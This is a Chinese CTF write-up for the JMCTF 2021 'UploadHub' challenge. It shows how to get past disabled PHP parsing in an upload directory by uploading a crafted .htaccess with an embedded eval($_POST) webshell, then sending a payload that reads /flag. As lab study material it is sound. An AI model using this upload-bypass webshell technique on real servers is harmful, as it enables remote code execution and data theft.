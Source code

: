 ```yaml
---
title: '[JMCTF 2021]UploadHub'
date: 2024-11-12 15:50:44
tags:
      - 文件上传
categories: 刷题笔记
---
```


## [JMCTF 2021]UploadHub

我们首先尝试上传一句话木马，发现网页并没有执行一句话木马

![image-20241112162009081](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411121620176.png)

我们查看配置文件，发现

```
php_flag engine off<Directory ~ "/var/www/html/upload/[a-f0-9]{32}/">
        php_flag engine off
</Directory>
```

php_flag engine 设置为0，会关闭该目录和子目录的php解析

也就是说，整个目录都不会执行php的

我们可以上传.htaccess文件来修改配置

经师傅们测试发现<file>标签的优先级高于<directory>

```
<FilesMatch .htaccess>
SetHandler application/x-httpd-php 
Require all granted    #允许所有请求
php_flag engine on	  #开启PHP的解析
</FilesMatch>

php_value auto_prepend_file .htaccess 在主文件解析之前自动解析包含.htaccess的内容
#<?php eval($_POST['dmind']);?>

```

我们将其写入.htaccess文件中上传

**SetHandler和ForceType**

强制所有匹配的文件被一个指定的处理器处理 用法：

```
ForceType application/x-httpd-php
SetHandler application/x-httpd-php

那么这里就是将.htaccess文件解析为php
```

我们先查看phpinfo()

![image-20250316150749737](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202503161507863.png)

过滤了一堆函数，我们使用var_dump来获取flag数据

```
dmind=var_dump(file_get_contents("/flag"));
```

得到flag

![image-20241112195544202](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411121955349.png)
